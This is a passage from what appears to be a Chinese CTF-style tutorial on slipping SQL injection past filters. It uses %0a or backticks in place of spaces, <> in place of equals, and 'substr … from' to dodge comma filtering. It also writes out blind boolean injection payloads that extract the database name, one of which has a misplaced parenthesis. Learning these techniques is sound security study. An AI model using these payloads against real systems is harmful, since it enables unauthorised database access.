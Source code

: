 ### 回车绕过

```cobol
因为mysql只有在遇到; 才会执行
所以我们可以通过 %0a绕过
 
select%0a*%0afrom%0ausername
```

### ·（键按钮）绕过

```typescript
select`*`from`username`
```

这里存在许多的绕过方式

下面是等号的绕过

## 等号绕过

这里我们可以使用<>绕过等号

```xml
<>是不等号的意思
 
所以我们可以通过<>来构造
```

```xml
a'or(1<>2)# 这里回显是 1 因为1不等于2 并且admin存在
 
a’or(1<>1)# 这里回显是 0 因为1等于1
```

目前我们可以开始爆破数据库了

我们可以知道构造payload

```lisp
a'or(ascii(substr(database()),0,1)<>1)#
```

但是我们发现 这里被过滤了 因为 , 被过滤

所以我们无法使用这个方法

## 绕过，（逗号）使用substr

这里我们学习到一种方式

```cobol
substr('flag' from 1)
```

```cobol
SELECT substr('flag' from 1)  --->flag
 
SELECT substr('flag' from 2)  --->lag
 
SELECT substr('flag' from 3)  --->ag
 
SELECT substr('flag' from 4)  --->g
```

